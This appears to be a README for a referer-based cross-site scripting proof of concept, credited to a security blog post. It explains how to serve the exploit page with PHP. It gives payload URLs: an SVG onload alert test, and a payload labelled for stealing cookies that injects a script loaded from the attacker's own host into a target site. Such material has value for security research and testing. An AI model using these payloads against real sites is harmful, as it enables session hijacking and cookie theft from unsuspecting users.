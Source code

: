 ## Referer-based XSS PoC

### Starting the server

Start the server from the repo directory with:
```
php -S 0.0.0.0:80
```

### Example

for testing:
```
[http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=TARGET_URL]
```

or to steal cookies:
```
[http://OUR_IP<script src=http://OUR_IP/script.js></script>?target=TARGET_URL]
```

Code based on what's discussed at Geekboy's blog here:
https://www.geekboy.ninja/blog/exploiting-unusual-referer-based-xss/

Geekboy also set up a vulnerable server for testing as discussed in the blog entry linked above. This link works as a test of our index.php file:
```
http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php
```

He set up a PoC here which is the same as index.php. You can click this link directly as is:
[http://p0c.geekboy.ninja/rxss.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php](http://p0c.geekboy.ninja/rxss.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php)

*Note: Replace OUR_IP and TARGET_URL as appropriate.*

